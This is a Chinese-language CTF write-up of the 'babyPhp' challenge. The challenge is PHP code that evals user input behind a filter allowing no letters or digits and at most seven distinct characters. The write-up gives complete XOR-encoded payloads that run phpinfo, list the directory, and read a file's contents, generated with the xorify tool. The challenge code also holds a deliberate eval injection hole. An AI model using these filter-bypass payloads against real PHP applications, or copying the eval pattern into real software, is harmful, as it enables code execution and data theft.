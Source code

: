 ### babyPhp
```php
<?php
function validate($text) {
    if (count(array_count_values(str_split($text))) > 7) {
        return false;
    }
    if (preg_match('/[a-z0-9]/i', $text)) {
        return false;
    }
    return true;
}

if (isset($_GET["exp"]) && !empty($_GET["exp"]) && is_string($_GET["exp"])) {
    echo $_GET["exp"];
    if(validate($_GET['exp']) === true) {
        eval($_GET['exp']);
    }
}else{
    highlight_file(__FILE__);
}
?>
```
当时搜到了限制13个重复字符的题ISITDTU 2019的EasyPHP
原题的一种解法是通过寻找重复字符来减少字符使用

这里限制的是7个字符.原来的方法我尝试过的最少能用10个,7个达不到,参考: [Unleashing XOR Magic： A Victory in Web CTF ：： KIAL Mohammed Yassine — Hello Friend NG 主题 (f00l1shf0x.com)](https://f00l1shf0x.com/posts/2024/02/unleashing-xor-magic-a-triumph-in-web-ctf/)

去GitHub下载脚本: [Yassine-Kial/xorify: python script for xor payload generation (github.com)](https://github.com/Yassine-Kial/xorify)

```python
python xor.py --payload "phpinfo" --valid_charset "*.;)(^" --char_separator "." --char_wrap "'" --case_sensitive 0

('.'^'^').('*'^'.'^';'^')'^'^').('.'^'^').('*'^'.'^';'^'('^'^').('*'^';'^')'^'('^'^').('*'^';'^')'^'^').('*'^';'^'^')
```
phpinfo:
```
(('.'^'^').('*'^'.'^';'^')'^'^').('.'^'^').('*'^'.'^';'^'('^'^').('*'^';'^')'^'('^'^').('*'^';'^')'^'^').('*'^';'^'^'))();
```
![image.png](https://image-1317255302.cos.ap-shanghai.myqcloud.com/markdown/20240331012416.png)


需要啥构造啥就行了
`(print_r)((scandir)('.'));`
```
print_r:
('.'^'^').('*'^'.'^'('^'^').('*'^'.'^';'^'('^'^').('*'^';'^')'^'('^'^').('*'^'^').(')'^'('^'^').('*'^'.'^'('^'^')

scandir
('*'^'.'^')'^'^').('.'^';'^'('^'^').('*'^'.'^';'^'^').('*'^';'^')'^'('^'^').(';'^')'^'('^'^').('*'^'.'^';'^'('^'^').('*'^'.'^'('^'^')

(('.'^'^').('*'^'.'^'('^'^').('*'^'.'^';'^'('^'^').('*'^';'^')'^'('^'^').('*'^'^').(')'^'('^'^').('*'^'.'^'('^'^'))((('*'^'.'^')'^'^').('.'^';'^'('^'^').('*'^'.'^';'^'^').('*'^';'^')'^'('^'^').(';'^')'^'('^'^').('*'^'.'^';'^'('^'^').('*'^'.'^'('^'^'))('.'));
```

`(print_r)(((file)(((end)(((glob)(('*.*'))))))));`

```
(('.'^'^').('*'^'.'^'('^'^').('*'^'.'^';'^'('^'^').('*'^';'^')'^'('^'^').('*'^'^').(')'^'('^'^').('*'^'.'^'('^'^'))(((('*'^';'^')'^'^').('*'^'.'^';'^'('^'^').(';'^')'^'^').(';'^'^'))((((';'^'^').('*'^';'^')'^'('^'^').(';'^')'^'('^'^'))(((('*'^';'^'('^'^').(';'^')'^'^').('*'^';'^'^').('.'^';'^')'^'^'))(('*.*'))))))));
```
